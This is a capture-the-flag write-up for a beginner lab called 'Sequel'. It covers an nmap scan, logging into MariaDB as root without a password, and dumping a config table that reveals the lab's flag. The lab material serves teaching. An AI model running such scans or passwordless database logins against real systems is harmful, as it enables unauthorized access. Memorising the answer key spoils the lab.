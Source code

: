 ```yaml
---
title: Máquina Sequel
published: true
---
```


Jorge Marco Arráez

1.  What does the acronym SQL stand for? 

Structured Query Language

2.   During our scan, which port running mysql do we find?
```
nmap -A -sCV -vv -T4 -n -oN nmap/ports $IP
```

3306

3.  What community-developed MySQL version is the target running? 

MariaDB

4.  What switch do we need to use in order to specify a login username for the MySQL service?
```
-u
```
5.  Which username allows us to log into MariaDB without providing a password? 

root

6.  What symbol can we use to specify within the query that we want to display eveything inside a table?

'*'

7.   What symbol do we need to end each query with?  

';'

8.  Submit root flag 
```
mysql --host $IP -P 3306 -u root
SHOW DATABASES;
use htb;
SHOW TABLES;
SHOW FIELDS FROM config;
SELECT * from config;
```

| id           | name                    | value        |
|:-------------|:------------------------|:-------------|
| 1            | timeout                 | 60s          |
| 2            | security                | default      |
| 3            | auto_logon              | false        |
| 4            | max_size                | 2M           |
| 5            | flag                    | 7b4bec00d1a39e3dd4e021ec3d915da8 |
| 6            | enable_uploads          | false        |
| 7            | authentication_methods  | radius       |
 
```
flag=7b4bec00d1a39e3dd4e021ec3d915da8
```

